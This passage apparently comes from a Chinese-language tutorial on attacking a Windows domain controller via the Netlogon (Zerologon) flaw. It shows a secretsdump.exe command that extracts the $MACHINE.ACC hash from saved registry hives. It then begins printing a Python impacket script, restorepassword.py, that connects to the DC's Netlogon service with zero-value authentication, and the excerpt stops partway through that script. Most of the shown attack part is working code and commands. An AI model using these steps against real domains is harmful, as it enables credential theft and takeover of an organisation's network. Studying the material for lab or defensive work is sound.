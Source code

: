 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptmPGiawrGzPjKeL3EO7hh4sn8lSiaFQmJPiboQ4qJMZVUzPdxcv9Ezrfqw/640?wx_fmt=png&from=appmsg "")  
- 使用impacket工具寻找域控机器账号的哈希  
- 执行后找到$MACHINE.ACC  
的值，只需要后半部分的值  
```
secretsdump.exe -sam sam.save -system system.save -security security.save LOCAL
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptPmeWGTDMnzEN6BV59dOLRoDICuqObMAPMpuqzBuYaGmj4icMASQCjqQ/640?wx_fmt=png&from=appmsg "")  
- 通过restorepassword.py脚本结合刚刚找到的hash恢复密码  
- 代码  
```
#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto
from impacket.dcerpc.v5.ndr import NDRCALL
import impacket

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call
from Cryptodome.Cipher import DES, AES, ARC4
from struct import pack, unpack

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%


class NetrServerPasswordSet(nrpc.NDRCALL):
    opnum = 6
    structure = (
        ('PrimaryName',nrpc.PLOGONSRV_HANDLE),
        ('AccountName',nrpc.WSTR),
        ('SecureChannelType',nrpc.NETLOGON_SECURE_CHANNEL_TYPE),
        ('ComputerName',nrpc.WSTR),
        ('Authenticator',nrpc.NETLOGON_AUTHENTICATOR),
        ('UasNewPassword',nrpc.ENCRYPTED_NT_OWF_PASSWORD),
    )

class NetrServerPasswordSetResponse(nrpc.NDRCALL):
    structure = (
        ('ReturnAuthenticator',nrpc.NETLOGON_AUTHENTICATOR),
        ('ErrorCode',nrpc.NTSTATUS),
    )

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer, originalpw):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  plaintext = b'\x00'*8
  ciphertext = b'\x00'*8
```